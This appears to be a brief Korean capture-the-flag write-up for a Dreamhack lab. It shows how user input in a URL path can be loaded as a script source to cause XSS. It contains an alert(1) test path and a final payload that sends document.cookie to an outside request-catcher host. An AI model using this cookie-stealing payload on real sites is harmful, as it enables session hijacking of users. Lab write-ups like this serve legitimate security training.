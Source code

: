 /static/script.js로 로드되어야 할 파일을 /`[USER_INPUT]`/**static**/script.js의 형태로 로드할 수 있을 때, USER_INPUT에 XSS를 넣으면 응답에서 XSS가 실행 된다

```
/index.php/**;alert(1);/**/?page=vuln&param=dreamhack
```

위와 같은 형태로 경로를 구성한다면 해당 내용이 **`script 태그의 src로 들어가`** alert(1);를 실행한다

<img src="https://github.com/user-attachments/assets/8f17498a-a7c3-46b4-bf71-59a13917e480" width=600>

<br>

최종 페이로드 

`index.php/;location.href='https://rsdyjtn.request.dreamhack.games/?%27+document.cookie;//?page=vuln&param=dreamhack`
